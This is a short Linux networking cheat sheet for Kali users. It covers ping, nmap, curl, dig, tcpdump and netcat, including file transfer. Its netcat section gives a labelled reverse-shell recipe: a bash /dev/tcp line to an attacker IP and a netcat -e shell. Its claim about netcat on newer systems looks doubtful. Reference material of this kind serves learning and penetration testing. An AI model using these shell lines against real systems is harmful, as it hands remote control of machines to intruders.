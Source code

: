 # **Networking Commands - Linux Quick Reference**
Recommended OS: Kali Linux

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [Network Troubleshooting](#network-troubleshooting)

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display network info, like IP address.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`nmap`**: Scan network for hosts and open ports, for one ip, or a range.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`
- **`mtr`**: Diagnostic tool combining ping and traceroute. `mtr <hostname or ip>`

---

## Netcat Commands

- **Listen on port**:  `nc -lvp 1234`
- **Connect to host**:  `nc <hostname or IP> 1234`
- **Scan for certain ports in a range**: `nc -zv <hostname> 1-100`
- **Send file**:  
  1. Receiver opens port and preps redirect:  `nc -l 12345 > received_file.txt`  
  2. Sender connects and redirects file to receiver ip:  `nc <receiver_ip> 12345 < my_file.txt`
- **Reverse Shell**:  
  1. Attacker opens port:  `nc -lvp 4444`  
  2. Victim connects and allows interactive shell for attacker:  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`
  - Note: newer systems use `nc -l -p 1234 -e /bin/bash`  

---

## Network Troubleshooting

- **`dig`**: Query DNS.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Show or set hostname.  `hostname`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
